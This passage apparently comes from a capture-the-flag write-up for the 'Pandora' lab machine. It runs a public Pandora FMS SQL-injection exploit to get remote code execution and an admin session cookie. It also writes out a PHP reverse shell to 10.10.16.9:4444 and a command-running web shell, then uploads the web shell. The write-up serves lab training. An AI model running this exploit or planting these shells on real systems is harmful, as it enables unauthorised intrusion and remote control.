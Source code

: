 Did not work.

Searching up exploit related to the associated version, we find this github page:

[https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

Let’s try it out:

```bash
python3 sqlpwn.py -t localhost:80
```

![image.png]({{ site.baseurl }}/assets/pandora/image%207.png)

We now have RCE. Let’s get a reverse shell back. Executing reverse shell on the exploit does not work. Let’s use the Admin Session Cookie to login:

```bash
URL:  http://localhost:80/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : j474kqhp5b1stqt7lebg1kcuql
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://localhost:80/pandora_console/images/pwn.php?test=

```

![image.png]({{ site.baseurl }}/assets/pandora/image%208.png)

Now refresh the page. We are in:

![image.png]({{ site.baseurl }}/assets/pandora/image%209.png)

Now we upload our php webshell file. First create it:

```bash
<?php
$sock=fsockopen("10.10.16.9",4444);
$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

<?php system($_REQUEST["cmd"]); ?>

```

![image.png]({{ site.baseurl }}/assets/pandora/image%2010.png)

Now just visit our page:

```bash
http://localhost:80/pandora_console/images/web.php?cmd=id
```

![image.png]({{ site.baseurl }}/assets/pandora/image%2011.png)
